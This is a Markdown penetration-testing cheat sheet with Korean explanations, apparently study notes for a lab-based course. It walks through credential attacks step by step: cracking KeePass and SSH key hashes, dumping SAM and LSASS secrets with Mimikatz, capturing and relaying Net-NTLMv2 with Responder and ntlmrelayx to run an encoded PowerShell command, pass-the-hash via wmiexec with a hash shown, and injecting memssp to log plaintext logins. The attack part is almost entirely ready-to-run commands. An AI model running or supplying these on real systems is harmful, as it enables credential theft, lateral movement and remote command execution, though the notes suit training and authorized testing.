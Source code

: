 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```

---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---

# Cracking NTLM
``` bash
.\mimikatz.exe
```
``` bash
privilege::debug
```

- `privilege::debug` 명령은 디버그 권한을 활성화합니다.
- 이 권한이 있어야 LSASS 프로세스에 접근하여 자격 증명을 덤프할 수
    있습니다.

``` bash
token::elevate
```

-   토큰을 SYSTEM 권한으로 상승시켜, 보안 제한 없이 시스템 자원에
    접근합니다.


``` bash
lsadump::sam
```

-   SAM(Security Account Manager) 데이터베이스에서 사용자 계정의 해시를
    추출합니다.
-   출력된 해시는 `USERNAME:RID:LM_HASH:NTLM_HASH::: 형식`입니다.


``` bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
# Cracking Net-NTLMv2
``` bash
sudo responder -I tap0
```

-   Responder는 NTLM 인증 요청을 가로채서 해시를 수집하는
    도구입니다.
-   `-I tap0` : 사용할 네트워크 인터페이스 지정 (예: `eth0`, `wlan0`,
    `tap0`)
- Responder는 SMB, HTTP, FTP 등 프로토콜을 이용한 인증 요청에
응답해, 클라이언트가 보낸 Net-NTLMv2 해시를 캡처합니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유 경로에 접근하게 하여 인증 절차를 유도합니다.
-   이 과정에서 NTLM 인증이 발생하며, Responder가 해시를 가로챕니다.

> 예: 사용자가 `dir \\192.168.119.2\test` 명령을 실행하면, SMB 인증
> 요청이 발생.

``` bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
---
# Relaying Net-NTLMv2
``` bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

-   **impacket-ntlmrelayx**: NTLM 인증을 다른 서비스로 릴레이하여 권한을
    획득하는 도구입니다.
-   `--no-http-server` : HTTP 서버 기능 비활성화 (SMB 릴레이만 사용)
-   `-smb2support` : SMBv2 프로토콜 지원 활성화
-   `-t 192.168.50.212` : 릴레이할 타겟 서버 IP
-   `-c "powershell -enc ..."` : 인증 성공 시 실행할 명령 (여기서는
    Base64 인코딩된 PowerShell 명령)

- 공격자는 Net-NTLMv2 인증 요청을 가로채서, 이를 SMB 서비스가 열려 있는
다른 타겟으로 전달합니다.
타겟이 해당 인증을 신뢰하면, 명령 실행 권한을 얻게 됩니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유에 접근하게 하여 SMB 인증을
    유도합니다.
-   인증 요청은 공격자의 시스템을 거쳐 릴레이 타겟(`192.168.50.212`)로
    전달됩니다.
-   인증이 성공하면 지정한 PowerShell 명령이 타겟에서 실행됩니다.

---
# Windows Credential Guard enabled
## 1. 시스템 정보 확인

``` powershell
Get-ComputerInfo
```

-   현재 시스템의 OS 버전, 빌드 번호, 보안 설정 등을 확인합니다.
-   Credential Guard가 활성화되어 있는지 파악하는 데 도움이 됩니다.

## 2. Mimikatz 실행

``` bash
.\mimikatz.exe
```

## 3. 디버그 권한 획득

``` bash
privilege::debug
```

-   SeDebugPrivilege를 활성화하여 LSASS 등의 민감한 프로세스에 접근할 수
    있도록 합니다.
-   관리자 권한 필요.

## 4. 자격 증명 추출 시도

``` bash
sekurlsa::logonpasswords
```

-   현재 로그인된 세션의 사용자 이름, 도메인, 해시, 평문 비밀번호 등을
    덤프합니다.

-   **주의**: Credential Guard 활성화 시 평문 비밀번호 추출이 제한될 수
    있습니다.


## 5. Impacket을 이용한 원격 명령 실행

``` bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```


## 6. MemSSP(메모리 보안 지원 공급자) 주입

``` bash
misc::memssp
```

-   Mimikatz의 `memssp` 모듈은 LSASS에 SSP(Security Support Provider)를
    주입하여 이후 로그인 자격 증명을 `mimilsa.log` 파일에 기록하게
    합니다.
-   새로운 로그인 시도가 발생하면 해당 자격 증명이 평문으로 로깅됩니다.

------------------------------------------------------------------------

## 7. 캡처된 자격 증명 확인

``` bash
type C:\Windows\System32\mimilsa.log
```

-   MemSSP로 캡처된 평문 자격 증명을 확인합니다.
